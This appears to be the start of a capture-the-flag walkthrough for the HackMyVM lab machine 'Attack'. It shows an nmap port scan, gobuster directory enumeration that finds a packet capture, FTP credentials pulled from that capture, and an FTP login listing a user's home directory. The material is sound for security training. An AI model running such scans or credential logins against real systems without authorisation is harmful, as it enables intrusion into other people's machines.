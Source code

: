 ```yaml
---
title: "Attack - HackMyVM Walkthrough"
---
```

nmap service scan:
┌──(kali㉿kali)-[~]
└─$ nmap -p- -sV 192.168.56.254 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-11 13:26 EST
Nmap scan report for may.hmv (192.168.56.254)
Host is up (0.00044s latency).
Not shown: 65012 closed ports, 520 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    nginx 1.14.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Anonymous login via FTP requires a password. Moving on to the webserver
Message from the developer:
I did a capture with wireshark. The name of the file is "capture" but i dont remember the extension :(

using gobuster to enumerate directories and files with specific extensions:
┌──(kali㉿kali)-[~/ctf]
└─$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -q -x html,pcap -u http://192.168.56.254/  
/index.html           (Status: 200) [Size: 104]
/capture.pcap         (Status: 200) [Size: 406500]

I took a look at the pcap file with wireshark and discovered the FTP user "teste" and
the password "simple". Logging in as teste:
┌──(kali㉿kali)-[~/ctf/attack]
└─$ ftp 192.168.56.254
Connected to 192.168.56.254.
220 ProFTPD Server (Debian) [::ffff:192.168.56.254]
Name (192.168.56.254:kali): teste
331 Password required for teste
Password:
230 User teste logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -asl
200 PORT command successful
150 Opening ASCII mode data connection for file list
drwxr-xr-x   4 teste    teste        4096 Jan  7  2021 .
drwxr-xr-x   5 root     root         4096 Jan  7  2021 ..
-rw-r--r--   1 teste    teste         220 Jan  7  2021 .bash_logout
-rw-r--r--   1 teste    teste        3526 Jan  7  2021 .bashrc
drwxr-xr-x   3 teste    teste        4096 Jan  7  2021 .local
-rw-r--r--   1 teste    teste      360917 Jan  7  2021 mysecret.png
-rw-r--r--   1 teste    teste          25 Jan  7  2021 note.txt
-rw-r--r--   1 teste    teste         807 Jan  7  2021 .profile
drwx------   2 teste    teste        4096 Jan  7  2021 .ssh
-rw-------   1 teste    teste          52 Jan  7  2021 .Xauthority
